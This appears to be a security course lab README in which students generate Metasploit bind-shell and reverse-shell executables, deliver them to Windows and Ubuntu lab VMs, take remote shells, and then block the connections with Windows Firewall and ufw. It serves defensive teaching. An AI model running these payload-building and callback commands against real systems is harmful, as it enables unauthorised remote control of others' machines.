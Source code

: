 # Windows Firewall
## Description
With malware generated by Metasploit, 
- bind shell
- reverse shell

practice attacking Windows without protection.

## Equipment
- Both the Kali Linux VM 🐧 and the Windows server VM 🪟

## Prerequisite!!!
- [Lab01](../lab01/README.md) must be done first if you use a new Windows VM

## Tasks

Task 1: bind shell
---
- 1.1 What is a bind shell?
  - A bind shell listens on the target system, using a TCP or UDP port
  - This is a very simple attack, and very easily stopped by a firewall 
  - The default action of the Windows firewall is to block unexpected incoming packets, so stops this attack
- 1.2 Create a bind shell with msfvenom in Kali Linux VM 🐧, open a terminal
  ```bash
  # 1.2.1. find bind shell options, setup required options
  msfvenom -p windows/shell_bind_tcp --list-options

  # 1.2.2. create a bind shell
  msfvenom -p windows/shell_bind_tcp -f exe > ./bindShell.exe

  # 1.2.3. start a web server, wait for victims to download
  # keep the web server running
  sudo python3 -m http.server  80
  ```
- 1.3 On the Windows server VM 🪟, download and run bindShell.exe
  - open a browser and access http://Kali_IP/bindShell.exe
  - find the IP address of your Kali VM and replace Kali_IP in the URL
  - run bindShell.exe, ignore warnings and run anyway
- 1.4 view the listening process. Run a command prompt as Administrator
  ```cmd
  netstat -bano | more
  :: find bindShell.exe and its port number from the list
  ```
- 1.5 use the bind shell, on the Kali Linux VM 🐧, open another terminal
  ```bash
  # 1.5.1. connect the the bind shell
  nc Windows_IP 4444
  # A "Microsoft Window" banner appears

  :: Now you are in a windows command prompt
  :: 1.5.2. find the login account
  whoami 
  :: 1.5.3. view the network connection you are using
  netstat -an | findstr 4444
  :: don't exit or close this terminal
  ```

- 1.6 Block incoming connections to the bind shell
  - 1.6.1. On the Windows server VM 🪟, turn on Windows firewall from
    - Control Panel->System and Security->Windows Firewall ->Customize Settings
  - 1.6.2. Go back to the the previous Kali terminal with the remote Windows command prompt
    - type and commands such as help, dir, etc. you get no response
    - due the connection to bindShell.exe is blocked by Windows firewall


Task 2: reverse shell
---
- 2.1 What is a reverse shell?
  - A reverse shell originates the connection 
    - from the target server, sending a SYN out 
    - to the attacker's Command & Control server, 
      - which listens for incoming traffic
    - Any computer that allows Web browsing must allow connections to external IP addresses on common ports, such as 80 and 443, 
      - so this attack works even when Windows Firewall is on, in its default state.
- 2.2 Create a reverse shell
  - 2.2.1. on the Kali Linux VM 🐧, open another terminal
    ```bash
    # 1. list required options
    msfvenom -p windows/shell_reverse_tcp --list-options

    # 2. only LHOST is required, set it to be Kali_IP 
    msfvenom -p windows/shell_reverse_tcp LHOST=Kali_IP -f exe > reverseShell.exe

    # 3. start a Command-and-Control (C&C) server
    msfconsole
    use multi/handler
    set PAYLOAD windows/shell_reverse_tcp
    set LHOST 0.0.0.0
    exploit
    ```
  - 2.2.2. Launch the reverse shell on the Windows machine 🪟
    - open a browser, access http://Kali_IP/reverseShell.exe
    - download and run anyway
  - 2.2.3. Go back to the previous Kali Linux VM 🐧 terminal
    - 1. "command shell session" opens, run the following commands
      ```cmd
      # a. view the processes you are using
      tasklist /V /FI "IMAGENAME eq *shell*"
      ```


Task 3: blocking outgoing connection with Windows firewall
---
- 3.1 From "Windows Firewall with Advanced Security", make sure Windows firewall is on for the three profiles
  - Domain profile
  - Private profile
  - Public profile
- 3.2 Create a outbound rule to block all TCP outbound connections
- 3.3 Go back to the previous Kali Linux VM 🐧 terminal, now the command shell session 1 is closed.
- 3.4 go back to the Windows machine 🪟, restore Windows firewall to its default state



## Extra credit (10%): Reverse shell on Linux

- e1. Setup an Ubuntu Linux machine, connect to the same NAT network as the Kali VM and Windows VM
- e2. Create a reverse shell malware on Kali
  ```bash
  # 1. create a reverse shell malware 
  msfvenom -p linux/x64/shell_reverse_tcp RHOST=Kali_IP -f elf > ./reverseShellLinux
  ```
- e3. Send the malware to Ubuntu by HTTP or FTP
- e4. In the reverse shell on Kali, find the malware connection
  ```bash
  # 1. start C&C
  msfconsole -q
  
  # 2. in msfconsole
  use multi/handler
  set PAYLOAD linux/x64/shell_reverse_tcp
  set LHOST 0.0.0.0

  # 3. after is running on Ubuntu
  exploit

  # 4. loot the Ubuntu victim machine
  whoami
  
  # 5. find the malware connection
  netstat -pant
  ```
- e5. Block outgoing connections with ufw on Ubuntu
  ```bash
  # 1. block outgoing connections with ufw
  sudo ufw default deny outgoing
  sudo ufw enable # go back to Kali, check the C&C

  # 2. turn off firewall
  sudo ufw disable
  ```


# Reference
- [samsclass: 15: Windows Firewall](https://samsclass.info/123/proj10/123p15fire.htm)
- [Malware attack](https://github.com/ufidon/its250/tree/master/labs/lab07)